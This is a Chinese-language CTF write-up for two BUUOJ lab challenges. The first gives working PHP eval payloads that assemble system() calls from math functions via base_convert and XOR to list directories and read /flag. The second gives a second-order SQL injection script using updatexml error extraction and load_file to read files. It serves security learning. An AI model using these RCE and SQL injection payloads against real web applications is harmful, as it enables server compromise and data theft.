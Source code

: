 ## Love Math

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

利用数学函数构造eval可以执行的webshell进而读取flag,有一点像无参数RCE

数学函数中有一个特殊函数为`base_convert`

`base_convert ( string $number , int $frombase , int $tobase ) : string`

>返回一**字符串**,包含`number`以`tobase`进制的表示,`number`本身的进制由`frombase`指定,`frombase`和`tobase`都只能在2和36之间(包括2和36),高于十进制的数字用字母`a-z`表示 

`base_convert(1751504350,10,36)`得到`system`

`base_convert(784,10,36)`得到`ls`

`base_convert(724009,10,36)`得到`find`

`system('ls')`的payload为`?c=base_convert(1751504350,10,36)(base_convert(784,10,36))`

`system('find')`的payload为`?c=base_convert(1751504350,10,36)(base_convert(724009,10,36))`

但是buuoj复现的题目的flag并不在www目录下,尝试对根目录进行搜索,因此需要对` /`进行构造

> 在php中可以对字符串进行异或,同时php中的函数名使用字符串来表示

```php
var_dump(urlencode("asdf"^"qwer"));
var_dump(urlencode("asdf"^"qwer0"));
/*
string(12) "%10%04%01%14"
string(12) "%10%04%01%14"
*/
```

```php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($i=0;$i<count($whitelist);++$i){
    for($j=0;$j<count($whitelist);++$j){
        for($k=0;$k<0xff;++$k){
            $s=$whitelist[$i]^$whitelist[$j]^dechex($k);
            if($s==' /'){
                var_dump($whitelist[$i]);
                var_dump($whitelist[$j]);
                var_dump($k);
            }
        }
    }
}
```

` /`的payload为`asin^pi^dechex(21)`

`system('ls /')`的payload为`?c=base_convert(1751504350,10,36)(base_convert(784,10,36).(asin^pi^dechex(21)))`,可以对payload进行缩短`?c=($pi=base_convert)(1751504350,10,36)($pi(784,10,36).(asin^pi^dechex(21)))`

得到flag在根目录下为`/flag`

在无参数RCE中有一个函数为`getallheaders`,构造`system(getallheaders(){xxx})`的payload即可执行任意代码,但是在php中直接`base_convert("getallheaders",36,10)`会出问题,因此使用`base_convert("getallheaders",30,10)`代替

```php
<?php
var_dump(base_convert(base_convert("getallheaders",36,10),10,36));
//string(13) "getallheadc08"
var_dump(base_convert(base_convert("getallheaders",30,10),10,30));//8768397090111664438
//string(13) "getallheaders"
```

payload为`?c=($pi=base_convert)(1751504350,10,36)($pi(8768397090111664438,10,30)(){1})`

添加header为`1 => ls`,即可执行`system('ls')`

![image-20210424140339386](image-20210424140339386.png)

![image-20210424140401445](image-20210424140401445.png)

---

> 特殊技巧

1. 除了使用`cat`命令读取文件外,使用`nl`命令也可以进行读取文件

2. `cat /*`的16进制为`636174202f2a`,`echo hex2bin('636174202f2a');`可以得到`cat /*`

3. 构造`$_GET`来手动传入参数

`'1517'^'nrtc'=='_GET'`

payload`?c=$pi=base_convert;$pi=$pi(53179,10,36)^$pi(1109136,10,36);${$pi}{0}(${$pi}{1})&0=system&1=cat /flag`

![image-20210424142210869](image-20210424142210869.png)

## CyberPunk

首页查看源代码,发现提示`?file=`可能可以读取源代码,成功读取

发现在几个主要的页面的存在sql注入的过滤

```php
$pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
```

而在`change.php`中存在二次注入

```php
$address = addslashes($_POST["address"]);
...
$sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
$result = $db->query($sql);
if(!$result) {
	echo 'error';
	print_r($db->error);
	exit;
}
```

`addslashes`在`' " \ NULL`后面添加`\`进行转义,但是`\`并不会写入到数据库中,在写入数据库的时候还是保留了原来的数据

而在数据存入到数据库后,再次被取出时没有进行再一次的转义,因此造成了二次注入

用`updatexml`进行报错注入(该语句对输出的字符长度做了限制,其最长输出32位)

```python
import requests
import time

url = "http://8af56c85-5ba8-4a09-9c16-144d33231017.node3.buuoj.cn"


def confirm():
    payload = url + "/confirm.php"
    post_data = {'user_name': 'asdf', 'phone': 'asdf', 'address': 'asdf'}
    requests.post(url=payload, data=post_data)


def delete():
    payload = url + "/delete.php"
    post_data = {'user_name': 'asdf', 'phone': 'asdf'}
    requests.post(url=payload, data=post_data)


def change(sql):
    payload = url + "/change.php"
    post_data = {'user_name': 'asdf', 'phone': 'asdf', 'address': sql}
    requests.post(url=payload, data=post_data)
    r = requests.post(url=payload, data=post_data)
    return r.text


def get_schema_name():
    for i in range(1, 100, 25):
        sql = "1' and updatexml(1,concat(0x7e,(select substr(group_concat(schema_name),%d,%d) from information_schema.schemata),0x7e),1) #" % (i, i + 25)
        confirm()
        text = change(sql)
        print(text)
        delete()
        if '~~' in text:
            return
        time.sleep(0.2)


def get_table_name():
    for i in range(1, 100, 25):
        sql = "1' and updatexml(1,concat(0x7e,(select substr(group_concat(table_name),%d,%d) from information_schema.tables where table_schema='ctfusers'),0x7e),1) #" % (i, i + 25)
        confirm()
        text = change(sql)
        print(text)
        delete()
        if '~~' in text:
            return
        time.sleep(0.2)


def get_column_name():
    for i in range(1, 5000, 25):
        sql = "1' where user_id=updatexml(1,concat(0x7e,(select substr(group_concat(column_name),%d,%d)from information_schema.columns where table_name='user'),0x7e),1)#" % (i, i + 25)
        confirm()
        text = change(sql)
        print(text)
        delete()
        if '~~' in text:
            return
        time.sleep(0.2)


def get_detail():
    for i in range(1, 100, 25):
        sql = "1' where user_id=updatexml(1,concat(0x7e,(select substr(group_concat(user_name),%d,%d) from ctfusers.user),0x7e),1)#" % (i, i + 25)
        confirm()
        text = change(sql)
        print(text)
        delete()
        if '~~' in text:
            return
        time.sleep(0.2)


get_schema_name()
get_table_name()
get_column_name()
get_detail()
```

但是`flag`不在数据库中???(ctftraining库中有个FLAG表,但是读不出来...)

看`wp`说在根目录下`/flag.txt`中???

```
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#

1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),20,40)),0x7e),1)#
```

